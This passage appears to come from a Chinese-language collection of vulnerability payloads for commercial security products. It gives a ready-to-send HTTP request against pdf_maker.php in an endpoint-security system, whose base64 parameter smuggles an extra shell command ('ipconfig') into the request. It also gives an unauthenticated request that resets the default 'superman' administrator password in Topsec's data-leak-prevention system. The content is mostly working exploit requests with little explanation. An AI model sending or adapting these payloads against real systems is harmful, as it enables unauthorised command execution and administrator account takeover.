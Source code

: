 - **pdf_maker.php 命令执行漏洞**
    - 相关文章
        - [某终端安全系统Nday分析+复现](https://mp.weixin.qq.com/s/DJVjf0s5-8bnh-We3uD56A)

    - POC | Payload | exp
        ```
        POST /inter/pdf_maker.php HTTP/1.1
        Content-Type: application/x-www-form-urlencoded

        url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
        ```

---

## 数据防泄漏系统

**天融信数据防泄漏系统**
- **越权修改管理员密码**
    ```
    无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

    POST /?module=auth_user&action=mod_edit_pwd

    Cookie: username=superman;
    uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
    ```
